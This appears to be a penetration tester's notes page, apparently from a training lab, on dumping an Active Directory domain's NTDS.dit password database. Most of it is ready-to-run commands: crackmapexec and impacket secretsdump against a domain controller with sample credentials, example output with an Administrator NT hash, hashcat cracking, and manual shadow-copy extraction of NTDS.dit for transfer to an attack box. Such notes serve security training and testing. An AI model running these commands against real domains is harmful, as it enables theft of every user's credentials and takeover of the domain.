 -- -
The `NDTS.dit` file is the AD database file that holds the data for Users, Groups, Security descriptors, and password hashes for all the users in the domain. Keys of the kingdom, you own this you own the domain.
#### netexec
Should dump hashes to the terminal
```bash
crackmapexec smb <dc ip> -u <user> -p <passwd> --ntds
```
Take the NT hash, then crack:
```bash
hashcat -m 1000 <hashfile> <wordlist>
```
#### Secretsdump
```bash
# secretsdump.py or impacket-secretsdump, it's the same command
secretsdump.py <domain>/<da user>:'<da password>'@<dc ip> -just-dc-ntlm
secretsdump.py MARVEL.local/pparker:'Password2'@192.168.138.132 -just-dc-ntlm
``` 

Should spit out something like:
```
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:920ae267e048417fcfe00f49ecbd4b33:::
```

Take out the NT hash, which is the last hash after colon:
```
920ae267e048417fcfe00f49ecbd4b33
```
Then Crack:
```bash
hashcat -m 1000 <hashfile> <wordlist>
```
#### Manual
```powershell
# make a backup of C:\ Drive
vssadmin CREATE SHADOW /For=C:

# above command will show the path to the copy, for example:
# \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2

# make a copy of the NTDS.dit file from the backup you just created
# plug in the path output above
cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit
```
Then [[Dark Arts I/File Transfer/~Home|File transfer]] to attack box for cracking